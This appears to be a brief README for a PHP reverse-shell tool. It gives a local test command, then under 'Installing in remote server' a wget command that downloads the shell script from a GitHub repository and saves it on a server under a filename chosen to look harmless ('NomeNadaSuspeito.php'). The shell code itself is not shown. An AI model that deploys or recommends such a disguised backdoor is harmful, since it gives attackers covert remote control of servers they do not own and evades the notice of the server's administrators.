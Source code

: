 # PHP Revershell
Testing:
```php
php -s localhost:8080 # Intance host and port
```
For test use defaults directories, or docker image
# Installing in remote server
Download the file, example:
```bash
wget https://raw.githubusercontent.com/Jul10l1r4/Shelllost/master/PHP/main.php -O NomeNadaSuspeito.php
```
